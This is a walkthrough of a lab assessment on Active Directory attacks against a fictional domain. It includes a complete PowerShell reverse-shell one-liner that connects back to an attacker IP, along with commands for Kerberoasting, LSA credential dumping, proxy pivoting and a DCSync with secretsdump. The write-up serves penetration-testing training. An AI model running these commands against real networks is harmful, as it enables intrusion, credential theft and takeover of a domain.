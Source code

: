 ## Active Directory Enumeration & Attacks – Skills Assessment Part I Write-up

### Initial Access – Web Shell & Credentials

The challenge begins with initial access provided: a web shell and valid credentials. Navigating to `http://<target_ip>/uploads` in a browser reveals two files — one resembling a web reverse shell. After authenticating with the provided credentials, we gain command execution capabilities via PowerShell running as **NT AUTHORITY**.

The first task is to retrieve a flag from this access point, which can be done through simple enumeration.

![](screenshots/1.png)


### SPN Enumeration & Kerberoasting

The next objective is to retrieve the password of an account associated with the SPN `MSSQLSvc/SQL01.inlanefreight.local:1433`.

We can do a simple search for SPN account names and find needed.

![](screenshots/2.png)

To proceed, we need to perform Kerberoasting. This requires a proper reverse shell to facilitate our tool usage.

#### Establishing Reverse Shell

On our attacker machine:

```bash
nc -lvnp 6666
```

On the target (via web shell), we execute the following PowerShell command to establish a reverse shell:

```powershell
$client=New-Object Net.Sockets.TCPClient('10.10.15.249',6666);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String );$sendback2=$sendback+'PS '+(pwd).Path+'> ';$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

As a result, we got a shell.

![](screenshots/3.png)


#### Import PowerView and Kerberoast

With the reverse shell active, we import PowerView:

```powershell
. .\\PowerView.ps1
```

Then, search for the target SPN and request a TGS ticket:

```powershell
Get-DomainUser * -spn | select samaccountname

Get-DomainUser -Identity <SPN_account_name> | GetDomainSPNTicket -Format Hashcat
```

![](screenshots/4.png)

![](screenshots/5.png)

This results in a krb5tgs hash that we can crack offline.


#### Cracking the Hash

Save the hash to a file and run Hashcat using the appropriate mode for Kerberos TGS-REP hashes:

![](screenshots/6.png)

Once cracked, we gain credentials for the service account.


### File Access on MS01

Using the cracked service account credentials, we identify the MS01 host (IP: 172.16.6.50) via `ping MS01` command. 

![](screenshots/7.png)

We then mount a network share:

```powershell
net use Z: \\172.16.6.50\C$ /user:inlanefreight.local\<spn_account_name>
```

![](screenshots/8.png)

From here, we locate and read the required `flag.txt` file.


### Credential Dump via LSASS

To retrieve cleartext credentials from MS01, we use Chisel for port forwarding:

Host machine:

```bash
python3 -m http.server 7777
```

Target (pivot) machine:

1. Download Chisel server via the web shell and forward traffic to local SOCKS5 proxy.

	![](screenshots/10.png)
	
2. Edit `/etc/proxychains.conf` to add `socks5 127.0.0.1 1080` string.

On the attack machine:
1. Connect to the server on pivot host via Chisel client:
	
	![](screenshots/11.png)

2. Test the established connection and SPN-associated account rights on MS01 host:

	```bash
	sudo proxychains crackmapexec smb 172.16.6.50 -u <SPN_user> -p <SPN_pass>
	```
	
	![](screenshots/12.png)

	If output shows **Pwn3d!**, the account has local administrator privileges.

3. Dump credentials:

	```bash
	sudo proxychains crackmapexec smb 172.16.6.50 -u <SPN_user> -p <SPN_pass> --lsa
	```
	
	![](screenshots/14.png)
	
	This yields new credentials, including those of interest.


### Privilege Escalation via ACL Analysis

Now, we pivot to MS01 using xfreerdp via proxychains to analyze access control:

```bash
proxychains xfreerdp /v:172.16.6.50 /u:<domain_user> /p:'<password>' /drive:/path/to/PowerView.ps1,<drive_name>
```

Inside the RDP session, we launch PowerShell as administrator and explore the account:

```powershell
Import-Module .\PowerView.ps1

$sid = Convert-NameToSid <domain_user>

Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

![](screenshots/16.png)

![](screenshots/17.png)

We identify Replication permissions, indicating a potential DCSync or DCShadow attack.


### Domain Controller & Final Flag

The final task is to target DC01. A simple `ping DC01` reveals its IP.

Using impacket-secretsdump with the previously gathered domain credentials, perform DCsync attack:

```bash
sudo proxychains secretsdump.py -just-dc-user Administrator INLANEFREIGHT/<domain_user>:<password>@<dc01_ip>
```

![](screenshots/18.png)

This gives us access to the NTLM hashes and credentials of high-privilege Administrator account.

Using Evil-WinRM or PS Remoting (port 5985), we authenticate as the Domain Administrator, access their desktop, and retrieve the final flag.

![](screenshots/19.png)


## Summary of Techniques

This assessment demonstrated a full Active Directory attack chain involving:

- Initial access via web shell and PowerShell execution as NT AUTHORITY
- Establishing a reverse shell to gain interactive control
- Kerberoasting using PowerView and offline password cracking with Hashcat
- Accessing internal file shares using cracked service credentials
- Pivoting through MS01 using Chisel and proxychains
- Dumping LSASS credentials with CrackMapExec
- Privilege escalation via ACL analysis and replication rights
- DCSync attack to extract domain admin credentials
- Final access to the domain controller and retrieval of the Administrator's flag

